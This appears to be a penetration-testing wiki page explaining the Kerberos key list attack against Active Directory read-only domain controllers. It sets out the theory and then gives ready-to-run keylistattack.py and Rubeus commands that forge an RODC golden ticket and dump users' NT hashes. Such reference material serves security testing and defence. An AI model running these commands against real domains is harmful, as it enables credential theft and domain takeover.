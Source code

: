 # Kerberos key list

## Theory

It is possible to retrieve the long term secret of a user (e.g. NT hash) by sending a `TGS-REQ` (service ticket request) to the `KRBTGT` service with a [`KERB-KEY-LIST-REQ`](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-kile/732211ae-4891-40d3-b2b6-85ebd6f5ffff) message type. This was introduced initially to support SSO with legacy protocols (e.g. NTLM) with Azure AD on on-premises resources.

An attacker can abuse this by forging a [RODC golden ticket](../../kerberos/forged-tickets/rodc-golden-tickets.md) for a target user and use it to send a `TGS-REQ` to the `KRBTGT` service with a `padata` filed value of [161](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-kile/ae60c948-fda8-45c2-b1d1-a71b484dd1f7) (`KERB-KEY-LIST-REQ`). Knowing the `KRBTGT` key of the RODC is required here. The `TGS-REP` will contain the long term secret of the user in the `KERB-KEY-LIST-REP` key value.

## Practice

::: tabs

=== UNIX-like

From UNIX-like systems, the [keylistattack.py](https://github.com/fortra/impacket/blob/master/examples/keylistattack.py) tool (Python) can be used for this purpose.


```bash
#Attempt to dump all the users' hashes even the ones in the Denied list
#Low privileged credentials are needed in the command for the SAMR enumeration
keylistattack.py -rodcNo "$KBRTGT_NUMBER" -rodcKey "$KRBTGT_AES_KEY" -full "$DOMAIN"/"$USER":"$PASSWORD"@"$RODC-server"

#Attempt to dump all the users' hashes but filter the ones in the Denied list
#Low privileged credentials are needed in the command for the SAMR enumeration
keylistattack.py -rodcNo "$KBRTGT_NUMBER" -rodcKey "$KRBTGT_AES_KEY" "$DOMAIN"/"$USER":"$PASSWORD"@"$RODC-server"

#Attempt to dump a specific user's hash
keylistattack.py -rodcNo "$KBRTGT_NUMBER" -rodcKey "$KRBTGT_AES_KEY" -t "$TARGETUSER" -kdc "$RODC_FQDN" LIST
```



=== Windows

From Windows systems, [Rubeus](https://github.com/GhostPack/Rubeus) (C#) can be used for this purpose. 

```powershell
# 1. Forge a RODC Golden ticket
Rubeus.exe golden /rodcNumber:$KBRTGT_NUMBER /flags:forwardable,renewable,enc_pa_rep /nowrap /outfile:ticket.kirbi /aes256:$KRBTGT_AES_KEY /user:USER /id:USER_RID /domain:domain.local /sid:DOMAIN_SID

# 2. Request a TGT via TGS-REQ request and retrieve the NT hash of the user in the response
Rubeus.exe asktgs /enctype:aes256 /keyList /ticket:ticket.kirbi /service:krbtgt/domain.local 
```


:::


## Resources

[https://www.secureauth.com/blog/the-kerberos-key-list-attack-the-return-of-the-read-only-domain-controllers/](https://www.secureauth.com/blog/the-kerberos-key-list-attack-the-return-of-the-read-only-domain-controllers/)
